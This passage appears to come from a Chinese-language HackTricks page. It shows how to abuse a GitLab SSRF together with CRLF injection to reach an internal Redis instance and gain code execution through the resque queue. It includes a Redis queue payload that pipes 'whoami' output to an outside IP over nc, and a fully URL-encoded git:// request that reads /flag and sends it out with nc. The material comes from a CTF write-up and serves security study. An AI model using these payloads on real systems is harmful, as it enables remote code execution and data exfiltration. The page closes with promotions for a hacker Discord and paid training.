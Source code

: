 因此，可以 **利用这些漏洞与管理来自 gitlab 的队列的 Redis 实例进行通信**，并利用这些队列 **获得代码执行**。Redis 队列滥用有效载荷是：
```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```
并且**URL编码**请求**滥用SSRF**和**CRLF**来执行`whoami`并通过`nc`发送回输出的命令是：
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
_出于某种原因（正如_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _的作者所述）利用`git`方案而不是`http`方案成功。_

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

加入 [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) 服务器，与经验丰富的黑客和漏洞赏金猎人交流！

**黑客见解**\
参与深入探讨黑客的刺激与挑战的内容

**实时黑客新闻**\
通过实时新闻和见解，跟上快速变化的黑客世界

**最新公告**\
了解最新的漏洞赏金启动和重要平台更新

**今天就加入我们的** [**Discord**](https://discord.com/invite/N3FrSbmwdy)，与顶尖黑客开始合作！

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>支持 HackTricks</summary></details>
{% endhint %}
